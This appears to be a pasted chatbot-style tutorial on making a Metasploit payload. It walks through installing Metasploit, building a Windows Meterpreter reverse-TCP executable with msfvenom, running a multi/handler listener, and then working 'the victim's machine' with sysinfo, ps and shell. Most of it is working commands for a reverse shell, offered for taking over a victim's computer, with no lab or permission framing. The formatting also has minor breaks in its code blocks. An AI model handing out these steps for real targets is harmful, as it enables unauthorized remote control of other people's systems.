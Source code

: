 Creating payloads with the Metasploit Framework (MSF) involves generating malicious code that can exploit a target machine's vulnerabilities. Here's a general guide on how to create payloads using Metasploit:

Step 1: Install Metasploit
If you don't have Metasploit installed, you can do so using the following steps for Linux (Ubuntu):

Update the system:

```bash
Copy code
sudo apt update && sudo apt upgrade
```
Install dependencies:

```bash
Copy code
sudo apt install curl wget git
Install Metasploit:
```
```bash
Copy code
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate > msfinstall
chmod 755 msfinstall
sudo ./msfinstall
```
Step 2: Start the Metasploit Console
Once Metasploit is installed, you can launch the console:

```bash
Copy code
msfconsole
```
Step 3: Generate Payload
To create a payload, you need to specify the type of payload you want to generate, along with options such as the payload's format and the IP address to bind the payload to.

Example: Creating a Reverse TCP Payload
Select Payload: In the Metasploit console, you can search for available payloads using:

```bash
Copy code
msfvenom -l payloads
```
Generate Payload: To generate a reverse TCP payload, use the following command:

```bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -f exe > payload.exe
```
Replace <Your-IP> with your local or public IP address, and 4444 with the port number you want the payload to communicate over.

In this example:

windows/meterpreter/reverse_tcp: The payload type (Windows with Meterpreter).
LHOST: The IP address of the attacking machine.
LPORT: The port number for the reverse connection.
-f exe: The output format, in this case, a Windows executable (.exe).
> payload.exe: The filename for the generated payload.
Other Common Payload Formats:
Windows Executable: -f exe
Linux ELF: -f elf
Android APK: -f apk
Python Script: -f raw

Step 4: Set Up the Listener
After creating the payload, set up a listener to wait for incoming connections from the payload:

Start a listener:

```bash
Copy code
msfconsole
```
Set the Exploit and Payload:

```bash
Copy code
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Your-IP>
set LPORT 4444
```
Start the listener:

```bash
Copy code
exploit
```
Now, when the victim runs the payload (payload.exe), the Metasploit handler will catch the reverse shell connection, and you will gain access to the victim's machine via Meterpreter.

Step 5: Interact with the Victim's System
Once the connection is established, you can interact with the system:

List system information:

```bash
Copy code
sysinfo
List processes:
```

```bash
Copy code
ps
```
Interact with the system (e.g., get a shell):

```bash
shell
```